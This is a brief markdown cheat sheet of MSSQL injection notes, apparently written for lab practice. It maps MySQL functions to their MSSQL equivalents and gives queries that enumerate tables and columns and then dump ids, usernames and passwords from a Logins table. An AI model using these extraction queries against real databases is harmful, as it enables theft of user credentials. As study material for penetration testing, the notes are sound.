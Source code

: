 # MSSQL Injection

some hit for mssql injection

`LIMIT` function need to know the columns name.

## Like mysql function name 

`GROUP_CONCAT` --> `STRING_AGG`

## List Tables

```mssql
# NO WORK
SELECT STRING_AGG(name,",") FROM master..sysobjects WHERE xtype = 'U'

# WORK
SELECT STRING_AGG(name,',') FROM master..sysobjects WHERE xtype = 'U'
```

## List Columns

Reference: https://www.mytecbits.com/microsoft/sql-server/list-of-column-names

```mssql
SELECT STRING_AGG(NAME,',') FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Hub_DB..Logins')

```
## Example

```mssql
# Dump id,username,password from HTB_DB..Logins
SELECT STRING_AGG(concat(id,',',username,',',password),'|') FROM Hub_DB..Logins
```
